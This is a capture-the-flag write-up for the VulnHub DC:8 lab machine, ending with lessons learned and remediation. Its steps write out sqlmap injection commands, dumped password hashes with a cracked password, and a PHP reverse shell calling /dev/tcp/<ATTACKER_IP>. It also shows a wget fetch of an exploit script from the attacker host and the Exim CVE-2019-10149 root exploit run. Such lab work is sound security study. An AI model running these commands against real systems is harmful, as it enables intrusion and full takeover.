




# DC: 8 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.6 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/dc-8,367/) |

## Attack Summary

nmap → Drupal 7 SQLi (sqlmap) → dump users table → john cracks password → PHP form code injection → reverse shell (www-data) → Exim 4.89 LPE (raptor_exim_wiz.sh) → root

## Methodology

1. Network discovery
2. Drupal SQL injection with sqlmap
3. Password cracking with john
4. PHP code injection via Drupal form settings
5. Privilege escalation via Exim 4.89 (CVE-2019-10149)

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.6
```

Findings: port 22 (SSH), port 80 (Apache — Drupal 7).



---

## Step 2: SQL Injection via sqlmap

A single quote `'` on a page parameter produces a Drupal SQL error, confirming injection.

```bash
sqlmap -u "http://192.168.0.6/?nid=2" --dbs --batch --risk 3 --level 5
# Finds: d7db, information_schema

sqlmap -u "http://192.168.0.6/?nid=2" -D d7db --tables --batch --risk 3 --level 5
# Finds: users table

sqlmap -u "http://192.168.0.6/?nid=2" -D d7db -T users --dump --batch --risk 3 --level 5
# Dumps: admin and john's hashed passwords
```


Save hashes to a file:
```bash
cat hashes.txt
# admin:$D2tRcYRyqVFNSCONVYUrYeQbLQg5koMKtihYTIDC9QQ...
# john:$S$DqupvJbxVmqjr6cYePnx2A8911Ln7lsuku/3if/oRVZJaz5mKC2vF
```

---

## Step 3: Password Cracking

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
john hashes.txt --show
# john:turtle
```

---

## Step 4: PHP Reverse Shell via Drupal Form

1. Log in to `http://192.168.0.6/user` as `john:turtle`
2. Navigate to **Structure → Webform → Contact → Form settings**
3. Change the text format to **PHP code**
4. Replace the form content with a PHP reverse shell:

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/1234 0>&1'"); ?>
```

5. Start listener:
```bash
nc -lvnp 1234
```

6. Submit the form to trigger execution → receive `www-data` shell.

```bash
# Stabilize shell
python -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 5: Exim 4.89 LPE — CVE-2019-10149

```bash
find / -perm -u=s -type f 2>/dev/null
exim --version | head -1
# exim 4.89 — vulnerable to CVE-2019-10149 (raptor_exim_wiz)
```

On attacker machine:
```bash
wget https://raw.githubusercontent.com/Ridter/exp-edb-47
python3 -m http.server 8000
nc -lvnp 4444
```

On victim (`www-data`):
```bash
cd /tmp
wget http://<ATTACKER_IP>:8000/raptor_exim_wiz.sh
chmod 777 raptor_exim_wiz.sh
./raptor_exim_wiz.sh -m netcat
# Callback arrives on port 4444 as root
```



```bash
id
# uid=0(root)
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **Drupal SQLi** — `?nid=` parameter not sanitized; use parameterized queries and keep Drupal patched
2. **Weak passwords in CMS** — `turtle` is in rockyou.txt; enforce password complexity
3. **PHP code execution in CMS forms** — never allow PHP as a text format; restrict to HTML/Markdown
4. **Exim 4.89 LPE (CVE-2019-10149)** — affects Exim < 4.92; upgrade immediately and restrict SUID services

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Drupal SQL injection | Update Drupal; use parameterized queries; WAF for SQLi patterns |
| Weak CMS passwords | Enforce complexity; enable 2FA on admin accounts |
| PHP code in form fields | Disable PHP text format in Drupal; allow only safe formats |
| Exim 4.89 LPE (CVE-2019-10149) | Upgrade Exim to ≥ 4.92; patch or remove if unused |
